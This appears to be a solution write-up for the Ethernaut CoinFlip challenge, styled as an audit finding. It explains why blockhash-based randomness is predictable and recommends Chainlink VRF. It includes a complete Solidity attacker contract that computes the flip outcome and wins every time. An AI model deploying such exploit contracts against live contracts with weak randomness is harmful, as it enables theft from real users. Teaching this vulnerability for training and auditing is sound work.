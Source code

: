 #### This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

## Summary
The coin flip depends on this calculation alone `uint256 coinFlip = blockValue / FACTOR`.
The values are as following:

`blockValue = uint256(blockhash(block.number - 1))`

`uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968`

This can be easily exploited since the blockValue can be easily computed on-chain by another contract.

## Vulnerability Detail
Since both values are known, they can be used by a malicious contract on-chain, to actually compute the value of `true`/`false` and directly call the `flip()` function of `CoinFlip`.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./ICoinFlip.sol";

contract CoinFlipAttacker {
    address public coinFlipAddress;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _coinFlipAddress) {
        coinFlipAddress = _coinFlipAddress;
    }

    function attackFlip() public {
        ICoinFlip coinFlipContract = ICoinFlip(coinFlipAddress);

        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        coinFlipContract.flip(side);
    }
}
```

Attack scenario:
1. An attacker deploys a malicious contract `CoinFlipAttacker.sol`. It has a function `attackFlip()` which performs the attack.
2. The attacker then calls the `CoinFlipAttacker::attackFlip` function. It pre-computes the `coinFlip` and calls `CoinFlip::flip` with that value.
3. The attacker always gets the correct flip.

## Impact
High. This breaks a core contract functionality. It is not constrained at all and everyone can easily exploit it.

## Code Snippet
https://github.com/danielvichinyan/ethernaut-solutions/blob/main/coinflip/CoinFlip.sol#L13-L31

## Tools Used
Remix IDE, Manual Review

## Recommendation
Incorporate external randomness. Use an Oracle service like Chainlink VRF (Verifiable Random Function) to get a truly random `FACTOR` number.
